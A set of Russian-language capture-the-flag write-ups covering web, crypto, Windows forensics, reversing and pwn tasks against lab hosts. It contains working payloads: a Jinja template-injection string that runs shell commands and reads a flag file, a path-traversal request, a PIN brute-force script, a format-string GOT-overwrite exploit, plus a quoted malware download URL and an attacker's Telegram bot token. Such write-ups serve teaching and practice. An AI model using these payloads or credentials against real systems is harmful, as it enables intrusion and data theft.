# web3 - 30 баллов

Заходи на сайт, видим поле для ввода


Вводим в него данные, нам пишет ввести имя на странице `/flag`


Переходим в данную директорию, но нам выводит ошибку 403


Анализ исходного кода показал, что нам блокирует доступ `haproxy`, а при запросе на данную директорию надо передовать параметр `name` в котором недолжно содержаться запрещёных символов


Следовательно нам ничего не остаётся как обойти данную ошибку, так как других скрытых директорий найдено не было

## Exploit 
Пробуем Path Fuzing с передачей параметра: `http://192.168.12.11:8001//flag?name=admin`, получаем в ответ `Привет админ`


Пробуем Server Site Template Injection: `http://192.168.12.11:8001//flag?name={{%20get_flashed_messages.__globals__.__builtins__[%27__import__%27](%27os%27).popen(%22pwd%22).read()%20%20}}`, в ответ получаем папку с именем `app`, в которой находится файл `flag.txt`


Следующим запросом получаем флаг: `http://192.168.12.11:8001//flag?name={{%20get_flashed_messages.__globals__.__builtins__.open(%22/app/flag.txt%22).read()%20}}`


## Flag
`nto{Ht1P_sM088Lin6_88Ti}`

# Crypto1 - 10 баллов

В задаче нужно узнать PIN, чтобы получить флаг.
Но на проверку пина (`/api/CheckPin`) стоит сильный ratelimit (1 запрос/мин), перебрать не получится.

IV при шифровании пина изменяется меняется каждую секунду, а не каждый раз, когда он используется. Значит, мы можем скачать зашифрованный пин раз в секунду и перебирать пины, шифровать их (`/api/EncryptPin`) и сравнивать с правильным пином.

## Exploit
```python
import requests
import time

last_checked = None
servpin = None
pin = 0

while True:
    if last_checked != int(time.time()):
        last_checked = int(time.time())
        servpin = requests.get("http://192.168.12.12:5000/api/EncryptedPin").text
        print("new servpin")

    mypin = requests.post("http://192.168.12.12:5000/api/EncryptPin", json={"pin": pin}).text

    if servpin == mypin:
        break
    
    pin += 1
    print(pin)

flag = requests.post("http://192.168.12.12:5000/api/CheckPin", json={"pin": pin}).json()["your_flag"]

print("--------------------")
print(f"PIN: {pin}")
print(f"flag: {flag}")
print("--------------------")
```

## Flag
PIN: `3561`  
`nto{C8C_1V_1s_k99}`# Forensics Задание №1

# Форензика Windows

## Вопрос 1
Ответ в легенде.  
`Валера попался на типичную фишинговую ссылку в email рассылке от своего якобы коллеги`

## Вопрос 2
В файлах Outlook есть фишинговое письмо. В приложенном архиве есть cmd-файл, который содержит команду на скачивание полезной нагрузки.  

`http://95.169.192.220:8080/prikol.exe`

## Вопрос 3
Приложенный архив использует RCE-уязвимость в WinRar.  
`CVE-2023-38831 в WinRar`

## Вопрос 4

  
`определяет присутствие отладчика с помощью функции IsDebuggerPresent и ещё закрывает некоторые программы`

## Вопрос 5
Алгоритм можно найти в строках.  
`AES-CBC-256`

## Вопрос 6
Ключ и IV можно найти в строках из дампа памяти.  
`key = amogusamogusamogusamogusamogusam`  
`iv = abababababababab`

## Вопрос 7
Посмотрев на трафик, можно увидеть токен телеграм бота и отправляемый файл `info.txt`  
  
`злоумышленник отправляет данные на специального ТГ бота`  
`token = 7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE`  
`chat id = 6591405725`  

## Вопрос 8
Зная ключ и IV, расшифровываем pass.txt.  
``sFYZ#2z9VdUR9sm`3JRz``

# rev1 - 10 баллов
Скачиваем файл, открываем в Ghidra, находим функцию проверки флага. Она сравнивает числа, вычисленные из флага и `otherjunk`, с элементами `junk`:  


Функция превращения части флага в число для сравнения:  


Заполнение `otherjunk`:  


Переписываем всё на python и добавляем перебор флага.

## Exploit
```python
junk = [
    0xEDCFE1F3, 0x646BCD23, 0x50F9AD57, 0xF299B1E1,
    0xC6A9B6E4, 0x3280614C, 0x93772B02, 0xAB2C3A43,
    0x2A0D936A, 0x1BFA14D4, 0x255D6F2F, 0xC447F66B,
    0x5AD96CF5, 0xE964AD12
]

otherjunk = [0] * 256

# fill otherjunk
for i in range(256):
    i2 = i

    for j in range(8):
        if i2 & 1 == 0:
            i2 = i2 >> 1
        else:
            i2 = i2 >> 1 ^ 0xedb88320

    otherjunk[i] = i2

def flagpart_to_otherint2(char1, char2):
    output = 0xffffffff

    output = otherjunk[(char1 ^ output) & 0xff] ^ output >> 8
    output = otherjunk[(char2 ^ output) & 0xff] ^ output >> 8

    return 0xffffffff - output

def brute(jp):
    for char1 in range(0xFF + 1):
        for char2 in range(0xFF + 1):
            otherint = flagpart_to_otherint2(char1, char2)

            if otherint == junk[jp]:
                print(chr(char1) + chr(char2), end="")
                return

for jp in range(len(junk)):
    brute(jp)
```

## Flag
`nto{4n0TH3R_bRu73F0RC3_7ASk}`  
(оказывается, брутфорс и был задуманным решением)

# web1 - 10 очков

Заходим на сайт, видим единственную ссылку.  


Переходим, там подсказка.  


В самой ссылке имя файла:
`http://192.168.12.10:5001/download?file_type=file1.txt`

## Exploit
Пробуем path traversal: `http://192.168.12.10:5001/download?file_type=../../../../etc/secret`, получаем файл `secret` c флагом.

## Flag
`nto{P6t9_T77v6RsA1}`# pwn1 - 10 очков

Для решения необходимо вызвать функцию win().

Проэксплуатируем уязвимость форматной строки, чтобы переписать адрес функции exit, которая вызывается в конце main, в разделе got.plt на адрес функции win.



## Exploit
```python
from pwn import *

io = process('./main')

win_addr = 0x401156
exit_addr = 0x404018

payload = b'%' + str(win_addr).encode() + b'x%8$nAAA' + p64(exit_addr)

io.sendline(payload)

io.interactive()
```

## Flag
`nto{easy_formt_string}`